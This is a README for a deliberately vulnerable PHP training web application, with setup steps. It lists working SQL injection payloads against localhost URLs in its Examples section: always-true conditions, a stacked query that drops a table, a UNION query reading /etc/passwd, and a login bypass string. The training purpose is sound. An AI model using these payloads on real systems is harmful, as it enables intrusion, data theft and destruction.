

# Hack This
A collection of common web programming mistakes.



This website, when set up and configured, contains a number of vulnerabilities that can be exploited, including:

* SQL Injection
* XSS (Cross-Site Scripting)
* Session Hijacking

## Prerequisites
You'll need to have a web server installed and configured with PHP for this to work. I really recommend [XAMPP](https://www.apachefriends.org/), especially for Windows users. Once you've done that you can proceed.

You'll also need [Node.js](https://nodejs.org/en/) and [npm](https://www.npmjs.com/) installed and working.

## Building
Clone the project down and open the folder in your favourite editor. It's a JetBrains PhpStorm project but you can use whichever paid/free software takes your fancy.

First, install the npm packages necessary to build and run the website. Run the following in your terminal in the project root directory:

```
npm install
```

This will install [Bower](https://bower.io/) which will allow you to install the assets the website requires (Bootstrap, jQuery etc.) using the command:

```
bower install
```

Gulp will also have been installed. This will compile the [Less](http://lesscss.org/) and [CoffeeScript](http://coffeescript.org/) into CSS and JS ready for production. Do this using the command:

```
gulp
```

This command will need running again every time you make a change to a Less file. If you're working on them, run `gulp watch` in a terminal to watch for file changes and compile accordingly.

## Setup
To set everything up, you'll need to: 

* Import the file `db.sql` into your database
* Modify the file `db_configuration.php` to correspond to your database
* Access the site and get hacking

## Examples
Examples of vulnerabilities in this web application include:

### SQL Injection
In an SQL injection attack, malicious SQL statements are inserted into an entry field for execution (usually in a data-driven web application). 

* Get information for all users: 
    - `http://localhost/customers.php?username=leocadio'%20or%20'1'='1`
    - `http://localhost/customers.php?username=leocadio'%20or%20''='`
    - `http://localhost/customers.php?id=1%20or%201=1`
* Drop (destroy) invoices table: 
    - `http://localhost/customers.php?id=1;drop%20table%20invoices`
* Dump the password hash file from the server: 
    - Unix: `http://localhost/customers.php?username='%20UNION%20SELECT%201,1,1,1,LOAD_FILE('/etc/passwd'),'1`
* Dump several things at once (oh boy): 
    - `http://localhost/customers.php?username='%20UNION%20SELECT%201,2,3,4,5,'hello%20world`

### Bypass Login (SQL Injection)
It's possible to bypass login completely (logging in as whoever you like) by adding an always-true condition to the password check:

```
foo' or '1'='1
```

## Warnings
This site is intentionally left vulnerable to common exploits. Don't host it on the same server as any production sites, never deploy it on any machine that you don't mind bricking (I recommend a disposable VM.)

## Acknowledgements
This is heavily based on the [php-sploits](https://github.com/jadz/php-sploits) repository by [Jared Mooring](https://github.com/jadz) and [Allan Shone](https://github.com/CerealBoy). Find the slides for their [SydPHP](https://github.com/sydphp) talk [here](http://www.slideshare.net/CerealBoy/sydphp-security).

The homepage template is a highly modified version of the [Blackrock Digital Freelancer](https://github.com/BlackrockDigital/startbootstrap-freelancer) template. Wonderful, free, MIT licensed template. Check it out if you're in the market for such a thing.
